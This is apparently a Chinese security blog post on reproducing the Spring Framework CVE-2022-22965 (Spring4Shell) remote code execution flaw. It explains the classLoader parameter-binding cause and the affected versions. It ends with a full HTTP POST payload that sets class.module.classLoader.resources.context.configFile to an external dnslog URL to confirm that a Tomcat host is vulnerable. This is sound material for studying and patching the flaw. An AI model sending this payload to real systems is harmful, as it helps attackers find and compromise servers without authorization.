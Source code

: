 #  ATT&CK-Spring Framework(CVE-2022-22965)远程代码执行漏洞   
原创 小海  雷神众测   2022-06-07 15:00  
  
![](https://mmbiz.qpic.cn/mmbiz_svg/ofvnGicEPbfRLqgKGNJyxzib43By9noWJNzUBvriaFKStluTJAW93gy6ISjiaOlIk7mG6PQxegIvlE2BLQbFSh6dnclSlg961zJE/640?wx_fmt=svg "")  
  
  
**STATEMENT**  
  
**声明**  
  
由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，雷神众测及文章作者不为此承担任何责任。  
  
雷神众测拥有对此文章的修改和解释权。如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经雷神众测允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。  
  
![](https://mmbiz.qpic.cn/mmbiz_svg/ofvnGicEPbfRLqgKGNJyxzib43By9noWJNzUBvriaFKStluTJAW93gy6ISjiaOlIk7mG6PQxegIvlE2BLQbFSh6dnclSlg961zJE/640?wx_fmt=svg "")  
  
  
前言  
  
**原理：**springmvc中通过方法形参来接收页面请求的key/value数据，经过参数绑定，将key/value数据绑定到controller方法的形参上。然后，参数绑定过程中，key值存在能够调用class属性，而JDK9及以上版本可以通过class.module.classLoader获取classLoader，利用该特性，完成配置参数的修改；  
  
**触发该漏洞需要满足三个基本条件：**Tomcat容器；使用JDK9及以上版本的Spring MVC框架；Spring 框架以及衍生的框架spring-beans-*.jar 文件；  
  
**漏洞影响版本：**版本低于5.3.18和5.2.20的Spring框架或其衍生框架构建的网站或应用。  
  
![](https://mmbiz.qpic.cn/mmbiz_svg/ofvnGicEPbfRLqgKGNJyxzib43By9noWJNzUBvriaFKStluTJAW93gy6ISjiaOlIk7mG6PQxegIvlE2BLQbFSh6dnclSlg961zJE/640?wx_fmt=svg "")  
  
  
**环境搭建**  
  
先下载源码 Spring4Shell-POC ，注意：tomcat环境下运行；  
  
![](https://mmbiz.qpic.cn/mmbiz_svg/ofvnGicEPbfRLqgKGNJyxzib43By9noWJNzUBvriaFKStluTJAW93gy6ISjiaOlIk7mG6PQxegIvlE2BLQbFSh6dnclSlg961zJE/640?wx_fmt=svg "")  
  
  
漏洞复现  
  
dnslog检测漏洞存在：  
```
POST /handling_form_submission_complete_war/greeting HTTP/1.1
Host: 192.168.80.150:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 166
class.module.classLoader.resources.context.configFile=http://spring-jayway.6u40q4.dnslog.cn/test&class.module.classLoader.resources.context.configFile.content.aaa=xxx
```  
  